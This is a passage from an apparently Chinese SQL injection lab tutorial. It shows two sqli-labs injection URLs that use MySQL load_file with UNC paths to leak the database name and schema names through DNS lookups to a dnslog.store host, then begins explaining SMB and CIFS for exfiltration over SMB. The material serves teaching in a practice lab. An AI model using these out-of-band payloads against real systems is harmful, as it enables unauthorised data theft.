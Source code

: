     http://192.168.100.223/sqli-labs/less-1/?id=1' and load_file(concat('\\\\',(select database()),'.cbffba4a.log.dnslog.store.\\1.txt'))%23![image](assets/image-20240821135901-6mwcsoc.png)http://192.168.100.223/sqli-labs/less-1/?id=1' and load_file(concat('\\\\',(select schema_name from information_schema.schemata limit 0,1),'.cbffba4a.log.dnslog.store.\\1.txt'))%23![image](assets/image-20240821140202-wwgduzc.png)

#### SMB数据外带

##### SMB

Server Message Block-SMB,即服务（器）消息块，是IBM公司在80年代中期发明的一种文件共享协
议。它只是系统之间通信的一种方式（协蚁），并不是一款特殊的软件。SMB协议被设计成为允许计算机
通过本地局域网(LAN)在远程主机上读写文件。远程主机上通过SMB协议开放访问的目录称为共享文
件夹。

##### CIFS

Common Internet File System-ClFS,即通用因特网文件系统。ClFS由美国微软公司开发。

##### Samba
